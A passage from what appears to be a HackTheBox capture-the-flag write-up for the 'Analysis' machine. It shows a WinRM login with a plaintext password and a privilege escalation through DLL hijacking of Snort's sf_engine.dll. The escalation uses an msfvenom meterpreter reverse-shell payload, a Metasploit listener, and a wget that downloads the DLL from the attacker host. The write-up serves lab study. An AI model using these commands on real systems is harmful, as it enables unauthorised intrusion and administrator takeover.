 ```powershell
evil-winrm -i analysis.htb -u jdoe -p '7y4Z4^*y9Zzj'
```



## Privesc

After gaining access to the system I noticed that the Snort directory was writeable. This software is known to have a dll hijacking by placing a file called **sf_engine.dll** in the **C:\Snort\lib\snort_dynamicpreprocessor** directory. This program was running as administrator making it interesting to try this attack out.

First we must generate a meterpreter payload using the following msfvenom command

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.95 LPORT=4000 -f dll > sf_engine.dll
```

Next setup the meterpreter listener.
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter_reverse_tcp;set LHOST tun0;set LPORT 4000;run;"
```

Next navigate to the **C:\Snort\lib\snort_dynamicpreprocessor** directory and download the dll generated from our webserver.

wget "http://10.10.16.95/sf_engine.dll" -outfile "sf_engine.dll"

Then after a few moment we'd get a callback on our meterpreter reverse shell

![Administrator shell](/assets/img/Analysis/Analysis_17.png)
